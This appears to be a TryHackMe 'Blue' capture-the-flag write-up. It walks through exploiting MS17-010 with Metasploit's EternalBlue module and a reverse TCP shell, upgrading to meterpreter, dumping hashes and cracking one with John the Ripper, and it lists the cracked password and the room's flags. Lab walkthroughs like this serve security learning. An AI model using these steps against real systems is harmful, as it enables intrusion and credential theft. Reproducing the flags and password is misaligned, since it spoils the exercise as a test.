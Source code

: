 # Write Up Blue Machine

This document is a write up of the CTF Blue in Try Hack Me.

## Task1 - Recon

- Q: Scan the machine.
- C: nmap -sV -sC MACHINE_IP -vv 

- Q: How many ports are open with a port number under 1000?
- A: 3

- Q: What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
- A: MS17-010
- How? I looked it up on google: "Windows 7 microsoft-ds exploit"

## Task2 - Gain Access

- Q: Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
- A: exploit/windows/smb/ms17_010_eternalblue
- C: 
   ``` bash
     msfconsole
     search ms17-010
   ```

- Q: Show options and set the one required value. What is the name of this value? (All caps for submission)
- A: RHOSTS

Now i have use: set payload windows/x64/shell/reverse_tcp  , as suggested. 
Running the exploit ends up giving me access, finishing this task.

## Task3 - Escalate

- Q: If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
- A: post/multi/manage/shell_to_meterpreter
- C: on msfconsole i used: search shell_to_meterpreter

- Q:Select this (use MODULE_PATH). Show options, what option are we required to change?
- A: Session

With this, i set Session to 1 (my session id from the target machine) and converted shell to meterpreter. 
Now we go to session 2 (meterpreter session): sessions 2

Use "getuid" to get the NT requested.

## Task4 - Cracking

- Q: Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
- A: Jon

- Q: Copy this password hash to a file and research how to crack it. What is the cracked password?
- A: alqfna22
- C: use hashdump
     (Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::)
    with jon the ripper on ffb43f0de35be4d9917ac0cc8ad57f8d:
        ```bash
            john hash.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt

        ```


## Task5 - Flags
 Flag1: flag{access_the_machine} at C:\
 Flag2: flag{sam_database_elevated_access} at C:\Windows\System32\config
 Flag3: flag{admin_documents_can_be_valuable} at C:\Users\Jon\Documents
